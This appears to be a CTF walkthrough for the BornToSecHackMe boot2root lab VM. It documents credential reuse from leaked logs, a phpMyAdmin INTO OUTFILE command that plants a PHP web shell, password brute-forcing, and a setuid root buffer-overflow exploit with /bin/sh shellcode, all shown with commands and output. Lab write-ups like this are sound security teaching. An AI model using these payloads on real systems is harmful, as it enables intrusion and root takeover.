

# The Normal Way to Gain Root Access

<!--toc:start-->
- [The Normal Way to Gain Root Access](#the-normal-way-to-gain-root-access)
  - [PhpMyAdmin exploit - SYSTEM IT](#phpmyadmin-exploit---system-it)
  - [lmezard ftp - THE WAY TO HAVE FUN](#lmezard-ftp---the-way-to-have-fun)
  - [Laurie user - THE BOMB](#laurie-user---the-bomb)
  - [Thor user - THE MOVING TURTLE](#thor-user---the-moving-turtle)
  - [Zaz user - Privilege escalation](#zaz-user---privilege-escalation)
<!--toc:end-->

We have analyze http server with ssl certificate using gobuster.

`-k` option is used to skip SSL certificate verification. Without this option we can´t launch command.
We have a lot of pages allowed without permission.  
We can analyze each pages to obtains anothers pages:

```bash
$gobuster dir -u $IP:443 -w /usr/share/wordlists/dirb/big.txt -k
...
/cgi-bin/             (Status: 403) [Size: 291]
/forum                (Status: 301) [Size: 318] [--> https://192.168.56.101/forum/]
/phpmyadmin           (Status: 301) [Size: 323] [--> https://192.168.56.101/phpmyadmin/]
/server-status        (Status: 403) [Size: 296]
/webmail              (Status: 301) [Size: 320] [--> https://192.168.56.101/webmail/]
```

Resume: We have a lot of interresting pages:

| **SERVICE NAME** | **PAGE NAME** | **VERSION**    |
|------------------|---------------|----------------|
| My litte Forum   | forum         | 2              |
| Phpmyadmin       | phpmyadmin    | 3.4.10.1       |
| SquirrelMail     | webmail       | 1.4.22         |
| MySQL            | NONE          | 2.3 ?          |

On the page `https://192.168.56.101/forum/index.php?id=6` we have a lot of connection logs from `lmezard`. We can see this:

```bash
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
```

The last input is weird, we can suppose it's a password. So we have tried to connect us at the forum with the login `lmezard` and the password `!q\]Ej?*5K5cy*AJ`.  
It's working !  

Now we can inspect user page. We have an email `laurie@borntosec.net`.  
We can try to connect us at the `webmail` page.  
It's working !

```bash
id: laurie@borntosec.net
pw: !q\]Ej?*5K5cy*AJ
```

We can inspect mail. There are 2 mails. `DB Access` and `Very interesting !!!!`.  
With the first mail we have credentials to DB access. We can try it.  
It's working !

```bash
id: root
pw: Fg-'kKXBj87E:aJ$
```

## PhpMyAdmin exploit - SYSTEM IT

We can inspect it.  
We have a `forum_db` database with various table like `mlf2_userdata`.  
To have access of admin account, we have tried to change admin password by laurie password but it's not working.  

Because of the default configuration of phpmyadmin gives the user full access of mysql command we can create a [backdoor](https://www.informit.com/articles/article.aspx?p=1407358&seqNum=2) to the server itself.  
We can use this command in our phpmyadmin:  

```sql
select '<?php system($_GET["cmd"]); ?>' into outfile "/var/www/forum/templates_c/cmd.php";
```

We have written php code in the file `/var/www/forum/templates_c/cmd.php` to execute any strings in the `cmd` parameter.
When visiting the url `/forum/templates_c/cmd.php?cmd=ls` the code will be executed.  

After executing many commands, we have found a file `password` in `/home/LOOKATME/`.  

```bash
cmd=cat /home/LOOKATME/password
lmezard:G!@M6f4Eatau{sF" 
```

## lmezard ftp - THE WAY TO HAVE FUN

This `credentials` can be used on ftp server. With this access with have obtained 2 files:

```bash
$ftp $IP
220 Welcome on this server
Name (192.168.56.101:parrot): lmezard 
331 Please specify the password.
Password:
230 Login successful.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-x---    1 1001     1001           96 Oct 15  2015 README
-rwxr-x---    1 1001     1001       808960 Oct 08  2015 fun
```

`README` give instructions: complete the challenge to obtain password of ssh user `laurie`.
`fun` is a puzzle. Using `file` command on fun. We have seen that it was a `tar archive`. So we have extract this file to obtain a directory in wich have lot of files.  
In order to understand wich append in these files we have cat all in a single output:

```bash
$file fun
fun: POSIX tar archive (GNU)
$tar -xf fun
$cat * > output.txt
```

We have read this file. It seems to be a puzzle of program. Each file has a comment with file number.  
We have write a [script](merge_files.rs) to sort all files by his file_number.
After that, we have a C program. We can compile it with gcc to obtain a phrase `Iheartpwnage`.

```bash
$ rustc merge_files.rs && ./merge_files
Done merging files into ft_fun.c
$ gcc ./ft_fun.c
$ ./a.out 
MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit%
$ echo -n "Iheartpwnage" | sha256sum
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4  -
```

```bash
ssh laurie@192.168.56.101
        ____                _______    _____           
       |  _ \              |__   __|  / ____|          
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___ 
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__ 
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
laurie@192.168.56.101's password: 
laurie@BornToSecHackMe:~$
```

Its working !

## Laurie user - THE BOMB

Now that we are connected on laurie we can inspect is `home` directory:  

```bash
laurie@BornToSecHackMe:~$ ls
bomb  README
laurie@BornToSecHackMe:~$ cat README 
Diffuse this bomb!
When you have all the password use it as "thor" user with ssh.

HINT:
P
 2
 b

o
4

NO SPACE IN THE PASSWORD (password is case sensitive).

laurie@BornToSecHackMe:~$ ./bomb 
Welcome this is my little bomb !!!! You have 6 stages with
only one life good luck !! Have a nice day!
6

BOOM!!!
The bomb has blown up.
```

We have used ghidra to obtain C code and complete the puzzles. Each point refered to a function in the programm.
To get the binary in host we have used `scp`:  

```bash
scp bomb parrot@192.168.56.108:/home/parrot/Documents/boot2root
parrot@192.168.56.108's password: 
bomb                                          100%   26KB  26.3KB/s   00:00    
```

We have reverse all function and obtained values:  

- Public speaking is very easy. (String is given.)
- 1 2 6 24 120 720 (Each previous value give us the current: val[n - 1] * i. First value is give.)
- 1 b 214 OU 2 b 755 OU 7 b 524 (Simple switch case.)
- 9 (We have brute force this function to obtain result. ([script](puzzle4.c)))
- opekma (This issue is working but another response are possible.)
- 4 2 6 3 1 5 (It was a chained list in which each value must be sorted in descending order.)

```bash
laurie@BornToSecHackMe:~$ ./bomb test.txt
Welcome this is my little bomb !!!! You have 6 stages with
only one life good luck !! Have a nice day!
Public speaking is very easy.
Phase 1 defused. How about the next one?
1 2 6 24 120 720
That's number 2.  Keep going!
1 b 214
Halfway there!
9
So you got that one.  Try this one.
opekma     
Good work!  On to the next...
4 2 6 3 1 5
Congratulations! You've defused the bomb!
```

Because have a lot of possibilities of password for the user thor. We have write a [script](thor_password.js) to create a list of passwords and try them all.

The password working is: `Publicspeakingisveryeasy.126241207201b2149opekmq426135`

```bash
laurie@BornToSecHackMe:~$ su thor
Password:
thor@BornToSecHackMe:~$ id
uid=1004(thor) gid=1004(thor) groups=1004(thor)
```

## Thor user - THE MOVING TURTLE

In the thor home directory we can find a readme and a file named turtle.

```bash
thor@BornToSecHackMe:~$ cat README 
Finish this challenge and use the result as password for 'zaz' user.
```

The file turtle contain a list of move we need to do with
[turtle](https://docs.python.org/3/library/turtle.html) and finished with:

```bash
thor@BornToSecHackMe:~$ tail turtle
Avance 100 spaces
Recule 200 spaces
Avance 100 spaces
Tourne droite de 90 degrees
Avance 100 spaces
Tourne droite de 90 degrees
Avance 100 spaces
Recule 200 spaces

Can you digest the message? :)
```

We create a [script](draw_turtle.py) to do the actions describes in the file
turtle and get this image:



The letters appear and we can see the word `SLASH`.

After some research we find a meaning for the last line:

- MD5 stand for Message-digest hashing algorithm

```bash
thor@BornToSecHackMe:~$ echo -n "SLASH" | md5sum
646da671ca01bb5d84dbb5fb2238dc8e  -
thor@BornToSecHackMe:~$ su zaz
Password: 
zaz@BornToSecHackMe:~$ id
uid=1005(zaz) gid=1005(zaz) groups=1005(zaz)
```

## Zaz user - Privilege escalation

In the `zaz` home directory we can find a file named `exploit_me`.

```bash
zaz@BornToSecHackMe:~$ file exploit_me 
exploit_me: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x2457e2f88d6a21c3893bc48cb8f2584bcd39917e, not stripped
zaz@BornToSecHackMe:~$ ls -la exploit_me 
-rwsr-s--- 1 root zaz 4880 Oct  8  2015 exploit_me
```

It's a 32bits binary with setuid enable and is owned by root.
If we can execute some code it will be executed as if we were root.

Find offset of saved eip:

```bash
(gdb) r $(python -c 'print "A" * 64')
Starting program: /home/zaz/exploit_me $(python -c 'print "A" * 64')

Breakpoint 1, 0x0804842c in main ()
(gdb) x/64xw $esp
0xbffff680:     0xbffff690      0xbffff8e9      0x00000000      0x00000000
0xbffff690:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6a0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6b0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6c0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6d0:     0x08048400      0x080496e8      0x00000002      0x080482dd
0xbffff6e0:     0xb7fd13e4      0x00100000      0x080496e8      0x08048461
0xbffff6f0:     0xffffffff      0xb7e5edc6      0xb7fd0ff4      0xb7e5ee55
0xbffff700:     0xb7fed280      0x00000000      0x08048449      0xb7fd0ff4
0xbffff710:     0x08048440      0x00000000      0x00000000      0xb7e454d3
(gdb) i f
Stack level 0, frame at 0xbffff720:
 eip = 0x804842c in main; saved eip 0xb7e454d3
 Arglist at 0xbffff718, args: 
 Locals at 0xbffff718, Previous frame s sp is 0xbffff720
 Saved registers:
  ebp at 0xbffff718, eip at 0xbffff71c
```

Buffer start at `0xbffff690` and eip start at `0xbffff71c`.

```bash
(gdb) p 0xbffff71c - 0xbffff690
$2 = 140
```

The offset is 140. We can exploit now.

We use a shellcode because the stack is executable:

```bash
zaz@BornToSecHackMe:~$ readelf -l exploit_me | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x4
```

```bash
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print("\x90" * 50 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 62 + "\xbf\xff\xf6\x50"[::-1])')
1Ph//shh/bin°
             ̀1@̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAP
$ id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
